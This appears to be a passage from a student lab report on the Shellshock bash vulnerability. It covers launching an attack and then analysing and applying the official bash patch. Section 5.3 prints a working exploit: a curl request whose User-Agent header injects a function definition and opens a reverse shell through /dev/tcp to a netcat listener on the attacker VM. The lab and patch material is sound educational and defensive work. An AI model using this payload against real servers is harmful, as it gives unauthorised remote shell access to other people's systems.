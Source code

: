 ### 5.3 Launch an attack
To launch an attack, we need run two terminals on the attacker vm. One is used to listen the TCP socket at $9090$, and another is used for send the data to our victim server by `curl`. 
```shell
# In the terminal one
$ nc -l 9090 -v
# In the terminal two
$ curl http://10.0.2.6/cgi-bin/myprog.cgi -v -A \
"() { :; }; echo Content_type: text/plain;echo; \
/bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1"
```
Image below shows that we successfully access the bash in the victim server as `www-data` user. 
![](/assets/images/media/16326883206491/16327698266434.jpg)


## TASK06

### 6.1 Discussion
After reviewing the diff file there, we find three change: 
* The first is the `common.h` file, in which two flags are added. The comments here mentions that they are used for checking validation of the function definitions and the number of commands. 
![](/assets/images/media/16326883206491/16327633385051.jpg)
* The second is the `evalstring.c` file. The codes in Line25 to 32 do check the validation of functions in the environmental variables. It will stop the following codes if it is invalid. There is also another check in Line 41 for the number of commands. It will also stop if the number is over one. 
![](/assets/images/media/16326883206491/16327636141383.jpg)
* The final one is `variables.c` file, where the program checks the name of environmental variables. The variables names with invalid identifiers will not be converted to a function anymore. 
![](/assets/images/media/16326883206491/16327641269129.jpg)

In conclusion, the bash program will check the validation for both the environment variable's contents and names. It will be converted into a function in the subprocess only if valid in its name and contents. 
### 6.2 Patch Bash 4.2
We used the following three commands in this section. `tar -zxf` is used to unzip the file. `patch` command is used to apply the patch into the `Bash v4.2`. The `-p1` command is used to make the program ignore the name differences. 
```shell
$ tar -zxf bash-4.2.tar.gz
$ cd bash-4.2
$ patch -p1 < ../CVE-2014-6271.diff
```
The image shows outputs that we got. The patches are successfully applied to the three `.c` files we mentioned before. 
![](/assets/images/media/16326883206491/16327645447441.jpg)

After that, we configured and compiled the patched `Bashv4.2` using the commands below: 
```shell
# Check the system and generate the makefile also
$ ./configure
# Compile the code
$ make
```
